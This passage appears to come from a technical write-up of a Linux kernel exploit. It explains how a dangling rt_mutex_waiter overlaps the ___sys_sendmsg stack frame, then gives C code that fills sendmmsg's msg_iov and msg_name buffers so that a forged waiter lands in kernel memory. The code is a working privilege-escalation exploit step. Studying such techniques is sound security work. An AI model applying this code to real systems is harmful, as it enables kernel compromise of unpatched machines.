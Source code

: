 ```c
```

Playing a bit with gdb, we can see that in the stack frame of `___sys_sendmsg`, the address range of the dangling `rt_mutex` overlaps with both `iovstack` and `address` like this (I cut away the uninteresting parts):

![`___sys_sendmsg` stack picture](/assets/iovec-vs-rt_waiter.png)

Now, `address` is copied from the buffer supplied in `msgvec.msg_name`, while `iovstack` is copied from `msgvec.msg_iov`. This means our setup ought to look like this:
```c
/* Assume that:
 * 1. The socket (sock) has already been set up and connected.
 * 2. fake_waiter is a pointer to shared memory.
 */
  
int i = 0;
struct mmsghdr msgvec[1];
struct iovec msg_iov[8];
char databuf[128];
  
struct rt_mutex_waiter *k_waiter;
  
memset(databuf, 0, sizeof(databuf));
  
/* Load up msg_iov with legal values */
for (i = 0; i < __count_of(msg_iov); ++i) {
    /* The address loaded to iov_base should be of a mapped memory
     * area, otherwise the kernel will freak out over it */
    msg_iov[i].iov_base = (void *)&fake_waiter;
    msg_iov[i].iov_len = 0x10;
}
  
/* The top 8 bytes of address overlap with rt_waiter.list_entry.prio and
 * rt_waiter.list_entry.prio_list.next */
k_waiter = (struct rt_mutex_waiter *)(databuf + sizeof(databuf) - 8);
k_waiter->list_entry.prio = 120 + 12; /* Preserve the node's priority */
k_waiter->list_entry.prio_list.next = &fake_waiter->list_entry.prio_list;
  
/* Now we set up the structure that gets passed to sendmmsg */
msgvec[0].msg_hdr.msg_name = databuf;
```